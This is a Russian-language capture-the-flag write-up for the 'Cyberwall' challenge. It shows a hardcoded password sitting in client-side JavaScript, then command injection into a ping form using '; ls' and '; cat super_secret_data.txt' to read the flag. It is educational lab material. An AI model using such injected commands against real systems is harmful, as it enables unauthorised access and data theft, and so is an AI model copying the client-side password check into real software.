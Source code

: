 # Cyberwall (100 points, 389 solves)

> We had problems with hackers, but now we got a [enterprise firewall system](http://chal.cybersecurityrumble.de:3812/)
> build by a leading security company.

Переходим по ссылке, и нас встречает страница с логином. Просмотр исходного кода открывает интересную информацию:

```html
        <script type="text/javascript">
            function checkPw() {
              var pass = document.getElementsByName('passwd')[0].value;
              if (pass != "rootpw1337") {
                alert("This Password is invalid!");
                return false;
              }
              window.location.replace("management.html");
            }
```

Ага, значит пароль — `rootpw1337`. Вводим его и нас выводит на следующую страницу:

![](https://i.imgur.com/ZWlvUn4.png)

Большинство страниц в меню бесполезны, а вот Debugging имеет форму для ввода: 

![](https://miro.medium.com/max/2400/1*bjuqLtjmlPsJC6q9TV4oxQ.png)

Что же, попробуем пингануть `ya.ru`. Вывод идентичен тому, что мы получаем в терминале при использовании команды `ping`.
Это наводит на мысль, что можно попробовать и другие команды. Например, строка `; ls` вывела список файлов:

```
requirements.txt
static
super_secret_data.txt
templates
webapp.py
wsgi.py
```

Теперь попробуем `; cat super_secret_data.txt` и получим флаг:

```
CSR{oh_damnit_should_have_banned_curl_https://news.ycombinator.com/item?id=19507225}
```